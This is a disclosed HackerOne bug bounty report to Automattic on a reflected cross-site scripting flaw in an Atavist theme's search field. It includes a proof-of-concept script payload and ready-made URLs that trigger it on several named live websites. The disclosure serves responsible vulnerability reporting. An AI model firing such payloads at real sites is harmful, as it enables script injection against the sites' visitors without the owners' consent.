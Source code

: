 # Reflected XSS on a Atavist theme

## Report Details
- **Report ID**: 947790
- **URL**: https://hackerone.com/reports/947790
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-30T11:46:14.695Z
- **Disclosed**: 2020-11-18T14:22:13.129Z

## Reporter
- **Username**: bugra
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:
Hi team,
I found Reflected XSS at a Atavist theme and there are a lot of affected websites.
I don't know the theme's name but it's in use at https://magazine.atavist.com/
Just write `<script>alert(document.domain)</script>` to  search field.

https://magazine.atavist.com/search?search=%3Cscript%3Ealert(document.domain)%3C/script%3E
https://docs.atavist.com/search?search=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

Also there are more affected websites like http://www.377union.com/search?search=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E , http://www.lifeaftermaria.org/search?search=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E etc.

So, I think the scope of this vulnerability is very large.

## Impact

Reflected XSS

Thanks,
Bugra

## Attachments
No attachments
